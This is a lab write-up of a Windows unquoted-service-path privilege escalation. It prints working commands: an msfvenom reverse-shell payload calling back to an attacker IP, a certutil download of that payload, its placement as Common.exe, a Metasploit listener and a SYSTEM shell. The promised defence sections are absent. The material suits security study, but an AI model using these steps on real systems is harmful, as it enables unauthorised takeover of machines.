







# Unquoted Path Service

**Date:** June 2026  
**Author:** ShahinSecLab  
**Category:** Privilege Escalation  
**Difficulty:** Easy  
**Tools:** msfvenom, Metasploit, winPEAS, accesschk.exe, certutil

# Table of Contents

- [What is Unquoted Path Service?](#what-is-unquoted-path-service)
- [Why This Attack Works](#why-this-attack-works)
- [What I Needed Before Starting](#what-i-needed-before-starting)
- [What I Understood During the Process](#what-i-understood-during-the-process)
- [Attack Flow](#attack-flow)
- [Step 1 — Finding the Unquoted Path Service](#step-1--finding-the-unquoted-path-service)
- [Step 2 — Finding a Writable Folder in the Path](#step-2--finding-a-writable-folder-in-the-path)
- [Step 3 — Generating a New Payload and Downloading it to the Victim](#step-3--generating-a-new-payload-and-downloading-it-to-the-victim)
- [Step 4 — Copying the Payload and Starting the Service](#step-4--copying-the-payload-and-starting-the-service)
- [Step 5 — Getting a SYSTEM Shell](#step-5--getting-a-system-shell)
- [How Defenders Can Catch This](#how-defenders-can-catch-this)
- [How to Prevent It](#how-to-prevent-it)
- [What I Achieved](#what-i-achieved)

## What is Unquoted Path Service?

Unquoted Path Service is a Windows privilege escalation technique. When a service binary path has spaces in it but no quotes around the full path, Windows does not know exactly where the path ends. So it tries to find the executable by checking multiple locations one by one. If I can drop a malicious file in one of those locations before the real binary, Windows runs mine instead — and since the service runs as SYSTEM, I get a SYSTEM shell.

## Why This Attack Works

Windows handles unquoted paths with spaces in a specific way. For example:

```bash
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

Windows does not read this as one full path. It breaks it up at every space and tries each combination:

```bash
C:\Program.exe
C:\Program Files\Unquoted.exe
C:\Program Files\Unquoted Path Service\Common.exe
C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
```

It stops at the first one it finds. So if I drop a file called Common.exe inside C:\Program Files\Unquoted Path Service\, Windows picks it up and runs it as SYSTEM before ever reaching the real binary.

## Lab Setup

```
|       Component      |         Details          |
|----------------------|--------------------------|
| **Attacker Machine** | Kali Linux               |
| **Attacker IP**      | 192.168.5.128            |
| **Victim Machine**   | Windows 10               |
| **Victim IP**        | 192.168.5.144            |
| **Network**          | VMware Host-Only Network |
| **Domain**           | WORKGROUP                |
```

## What I Understood During the Process

While working through this attack I realized that:

- A missing pair of quotes around a service path can lead to full SYSTEM access
- The attack only works if I can write to one of the folders Windows checks
- winPEAS finds these misconfigurations automatically and flags them clearly
- This is one of the most common privilege escalation paths found in real Windows environments
- Fixing it is as simple as adding quotes around the binary path

## Attack Flow

```
winPEAS flagged unquotedsvc service — unquoted path with spaces detected
                        ↓
Checked service config — runs as LocalSystem (SYSTEM)
                        ↓
Checked folder permissions along the binary path
                        ↓
Found C:\Program Files\Unquoted Path Service\ is writable by normal users
                        ↓
Generated malicious payload rev.exe on Kali with msfvenom
                        ↓
Hosted payload over HTTP with Python HTTP server
                        ↓
Downloaded rev.exe to victim using certutil
                        ↓
Copied rev.exe to writable folder as Common.exe
                        ↓
Started Metasploit listener on port 4444
                        ↓
Started unquotedsvc service
                        ↓
Windows found Common.exe first and ran it as SYSTEM
                        ↓
Metasploit caught the shell
                        ↓
whoami → nt authority\system
```

## Step 1 — Finding the Unquoted Path Service

I started by running `winPEAS` to check for possible privilege escalation opportunities on the target machine.

```bash
C:\PrivEsc>winPEASany.exe
```
While looking through the results, I found that `winPEAS` reported the `unquotedsvc` service. The executable path contained spaces but was not enclosed in quotation marks.

**Output:**

```
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected 
```

<p align="center">
  
</p>

This caught my attention because an unquoted service path can sometimes be used to gain higher privileges if the required permissions are available.

### Checked the Service Configuration

To confirm what `winPEAS` found, I checked the service configuration using the `sc qc` command.

```bash
C:\PrivEsc> sc qc unquotedsvc
```

***Output:**

```
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
The output confirmed two important things:

The `BINARY_PATH_NAME` contains spaces and is not enclosed in quotation marks, which makes it vulnerable to an **Unquoted Service Path** attack.
The service runs as **LocalSystem**, so if I successfully exploit it, I can get **SYSTEM** privileges.

## Checked Write Permissions on C:\

The service path starts from `C:\`, so I first checked whether I had write permission there.

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq C:\
```

**Output:**

```
C:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM
```
The output showed that only **Administrators** and **SYSTEM** had write access to `C:\`. Since my user didn't have permission to write there, I needed to check the next folder in the service path.

<p align="center">
  
</p>

## Step 2 — Finding a Writable Folder in the Path

Next, I checked each folder in the service path to see if I had write permission.

### Check `C:\Program Files\`

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq "C:\Program Files\"
```

**Output:**

```
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```
The output showed that only **TrustedInstaller**, **SYSTEM**, and **Administrators** had write permission. My user could not write to this folder.

<p align="center">
  
</p>

### Check `C:\Program Files\Unquoted Path Service\`

Since I couldn't write to the previous folder, I checked the next folder in the service path.

```bash
C:\PrivEsc>.\accesschk /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

**Output:**

```
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```
This time, I found `RW BUILTIN\Users`, which means any normal user can write to this folder. This was exactly what I was looking for, because it gave me a place where I could put my malicious executable.

### Step 3 — Generating a New Payload and Downloading it to the Victim

### Generate Payload on Kali

After finding a writable folder, I created a new Meterpreter payload using msfvenom.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f exe -o rev.exe
``` 
**Output:**

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: rev.exe
```
This created a payload named `rev.exe`.

<p align="center">
  
</p>

### Start Python HTTP Server on Kali

```bash
python3 -m http.server 80
```

**Output:**

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.5.144 - - [20/Jun/2026 22:51:35] "GET / HTTP/1.1" 200 -
```

### Download the Payload on the Victim Machine

On the victim machine, I used `certutil` to download the payload from my Kali machine.

```bash
certutil -urlcache -split -f http://192.168.5.128/rev.exe rev.exe
```

**Output:**

```
****  Online  ****
  0000  ...
  1e00
CertUtil: -URLCache command completed successfully.
```
<p align="center">
  
</p>

The payload was downloaded successfully and saved as rev.exe on the victim machine.S

## Step 4 — Copying the Payload and Starting the Service

### Copied the Payload to the Writable Folder

Since I had write permission on C:\Program Files\Unquoted Path Service\, I copied my payload there and named it `Common.exe.`

```bash
copy C:\PrivEsc\rev.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
**Output:**

```
1 file(s) copied.
```
<p align="center">
  
</p>

### Start the Metasploit Listener on Kali

Before starting the service, I started a Metasploit listener to wait for the incoming reverse shell.

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
msfconsole -q                                                                                   
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.5.128
lhost => 192.168.5.128
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.5.128:4444 
```
<p align="center">
  
</p>

### Start the Service

After everything was ready, I started the vulnerable service.

```bash
C:\PrivEsc> net start unquotedsvc
```
When the service started, Windows looked for the executable in the unquoted path. It found `Common.exe` in the writable folder and executed it with `SYSTEM` privileges, causing the reverse connection to my Metasploit listener.

## Step 5 — Getting a SYSTEM Shell

### Metasploit Caught the Connection

After I started the service, my payload connected back to the Metasploit listener and opened a new Meterpreter session.

```
[*] Sending stage (244806 bytes) to 192.168.5.144
[*] Meterpreter session 2 opened (192.168.5.128:4444 -> 192.168.5.144:50097) at 2026-06-20 23:47:53 -0400

meterpreter >
```
<p align="center">
  
</p>

Next, I dropped into a Windows command shell from the Meterpreter session.

```bash
meterpreter > shell
```
**Output:**

```
Process 7880 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.
```
<p align="center">
  
</p>

To confirm my privileges, I ran:

```bash
C:\PrivEsc>whoami
```
**Output:**

```
nt authority\system
```

<p align="center">
  
</p>

The output confirmed that I was running as `NT AUTHORITY\SYSTEM`, which is the highest privilege level on a Windows machine. The attack was successful.